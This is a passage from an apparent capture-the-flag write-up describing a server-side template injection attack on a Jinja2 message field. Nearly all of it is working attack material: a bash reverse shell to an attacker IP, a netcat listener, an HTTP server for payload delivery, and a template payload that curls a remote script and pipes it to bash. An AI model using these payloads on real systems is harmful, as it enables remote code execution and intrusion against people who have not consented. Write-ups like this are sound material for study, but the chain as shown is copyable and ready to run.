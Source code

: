 
> Now, I have to try the following payload to create a reverse shell
> Before I start to do it, I have to prepare the following
1. Create a Simple HTTP Server to transfer reverse shell file
```
python -m http.server 9797
```
2. Create a shell file
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.17.145/1337 0>&1
```
3. Create a nc listener
```
nc -nlvp 1337
```
> As long as the previous step finish, I put the following payload in message title.
```
{{ cycler.__init__.__globals__.os.popen('curl 10.10.17.145:9797/shell.sh | bash').read() }}
```

![](./IMG/33.png)

> Then, It's easy to find the shell.sh file has been downloaded from target.

![](./IMG/34.png)
